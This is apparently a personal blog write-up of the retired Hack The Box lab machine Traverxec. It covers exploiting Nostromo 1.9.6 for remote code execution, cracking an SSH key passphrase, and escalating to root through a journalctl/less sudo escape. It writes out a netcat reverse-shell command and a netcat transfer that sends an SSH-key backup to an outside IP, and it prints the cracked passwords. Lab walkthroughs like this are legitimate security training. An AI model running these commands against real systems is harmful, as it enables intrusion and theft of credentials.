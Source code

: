 ```yaml
---
layout: default
---
```

## Traverxec
###### Retired April 2020
![](https://www.hackthebox.eu/storage/avatars/6ce5fcdd63f07a5ce91d0b8e4579b163.png)

Life is short. [Need to skip to root?](#root)

This was a machine with secrets everywhere. A hidden (,hidden?) directory and a tricky sizing trick with privesc to root.

The IP has been added to my ```/etc/hosts``` file as traverxec.htb. Starting with nmap, I did a quick portscan of all ports and got back hits on 22 and 80. A full scan of those ports revealed:

![](https://yaboygmoney.github.io/htb/images/traverxec/1.png)

The results show that port 80 is running Nostromo version 1.9.6. Some quick recon on the version shows that the particular version provides remote code execution (RCE) capability by exploiting a LFI vulnerability. There are several ways to exploit this vulnerability: manually is pretty easy via web requests, a [python script](https://github.com/sudohyak/exploit/blob/master/CVE-2019-16278/exploit.py) is easier, and [Metasploit has a module](https://www.exploit-db.com/exploits/47573) that's easiest. I opted for the python exploit.

To get a shell, I needed a listener ready:

```bash
nc -nvlp 1234
```

and to make the call using the PoC code:

```bash
python exploit.py traverxec.htb 80 "nc 10.10.14.31 1234"
```

![](https://yaboygmoney.github.io/htb/images/traverxec/shell.png)

The shell is created and I can see that I landed on the machine as www-data.

Initial enumeration didn't show much for any binary/SUID exploitation for privesc, but looking through the Nostromo configuration revealed an .htpasswd file with a hash inside. I cracked it and revealed a password ```Nowonly4me```. It didn't work for SSH as David, and it turns out I didn't really end up needing it at all. 

![](https://yaboygmoney.github.io/htb/images/traverxec/5.png)

The password was for a basic authentication prompt and would have been needed if I did the upcoming steps through a browser. Moving on.

The Nostromo configuration file located at ```/var/nostromo/conf/nhttpd.conf``` provided the necessary information for privesc to david. In the ```#BASIC AUTHENTICATION``` section, we can see that while optional, it is configured. We have the password from the .htpasswd file already. 

![](https://yaboygmoney.github.io/htb/images/traverxec/4.png)

Looking further down the file is the ```HOMEDIRS``` configuration. Reading the [documentation for nhttpd](https://www.gsp.com/cgi-bin/man.cgi?section=8&topic=nhttpd), I learned that it's possible to share home directories for users with a leading ```~``` character followed by their name, for example ```http://traverxec.htb/~david/```.

The configuration also shows that it's possible to provide a ```public_www``` directory. I didn't have permission to list directories from David's home directory, but I could go straight to ```/home/david/public_www``` directory. 

![](https://yaboygmoney.github.io/htb/images/traverxec/6.png)

I shipped the compressed file back to my local machine using a netcat file transfer:

```bash
nc -w 3 10.10.14.31 1235 < backup-ssh-identity-files.tgz # On remote machine
nc -nvlp 1235 > ssh.tgz # On local machine
```

![](https://yaboygmoney.github.io/htb/images/traverxec/7.png)

and decompressed the contents. Inside was David's private SSH key.

![](https://yaboygmoney.github.io/htb/images/traverxec/8.png)

I tried to SSH with just the key, but SSH still wanted a password, and not the password cracked from earlier. To get the password, we can to carve it out of the key file.

I ran the key through ```ssh2john``` and kicked it out to a text file that ```john``` can work with. From there, I can run the text file through ```john```.

```bash
/usr/share/john/ssh2john.py home/david/.ssh/id_rsa > ssh2johnhash.txt
john ssh2johnhash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

After a few seconds the hash is cracked and I'm given the password ```hunter```.

![](https://yaboygmoney.github.io/htb/images/traverxec/9.png)

Now I can SSH using the same command as earlier, but provide the password this time and I'm in.

```bash
ssh -i home/david/.ssh/id_rsa david@traverxec.htb
```

![](https://yaboygmoney.github.io/htb/images/traverxec/10.png)

Now for root.<a name="root"></a>

In david's home directory, there's a ```bin``` directory. One of the files called ```server-stats.sh``` ends with the line ```/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service | /usr/bin/cat```. This is our way in. 

![](https://yaboygmoney.github.io/htb/images/traverxec/11.png)

Here's the breakdown:
1. Since David owns this script, we can assume that every line in the script is able to be executed manually outside of the script.
2. The last line is run with root permissions.
3. The ```journalctl``` binary that is run as root actually runs on top of the ```less``` binary. It's possible to drop into a shell from within ```less``` (see [GTFObins](https://gtfobins.github.io/gtfobins/journalctl/#sudo)).

So to get a root shell, all I have to do is run

```bash
/usr/bin/sudo /usr/bin/journalctl -n5 -unostromo.service
```

But there's a very creative catch. The command prompt MUST be small enough that the entire script cannot be displayed on the screen to actually force the ```less``` binary to be necessary. So the above command should be ran in a tiny command prompt window.

Now I'm in a ```less``` environment. From here just type

```bash
!/bin/bash
```

![](https://yaboygmoney.github.io/htb/images/traverxec/12.png)

and a shell is executed under the context of root.

Thanks for reading.

#### Keep trying
